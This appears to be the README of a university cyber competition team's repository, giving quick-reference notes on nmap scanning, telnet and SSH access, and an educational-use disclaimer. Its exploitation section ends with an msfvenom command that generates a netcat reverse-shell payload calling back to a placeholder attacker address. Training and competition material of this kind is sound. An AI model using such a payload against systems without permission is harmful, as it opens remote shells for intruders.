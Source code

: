 # A Public Repository for the UAT Cyber Competition Team
The folders represent various scripts and resources applicable to individual members or subject areas to support Blue or Red team operations.  The guidance below is for quick reference and will continue to evolve as we develop use-cases.
> ### Using any of the resources within this repository without proper permission by the target network owner will likely be illegal.  These resources are for educational purposes only. 

## RECONNAISSANCE
### Enumeration (Active Recon)
#### Network Enumeration
The first step in evaluating a target network is to identify open ports and active services.

NMAP Commands\
nmap [flag(s)] [target/file]



References:\
[Try Hack Me NMAP room](https://tryhackme.com/r/room/furthernmap)\
[NMAP Cheat Sheet All Commands & Flags Nathan House](https://www.stationx.net/nmap-cheat-sheet/)


## ACCESS

Telnet Commands:\
telnet [ip] [port]

SSH Commands:\
ssh username@IP

## EXPLOITATION

Reverse Shell:\
Obtain your lhost from the terminal using: 
``` ifconfig

msfvenom -p cmd/unix/reverse_netcat lhost=xx.xx.xx.xx lport=4444 R
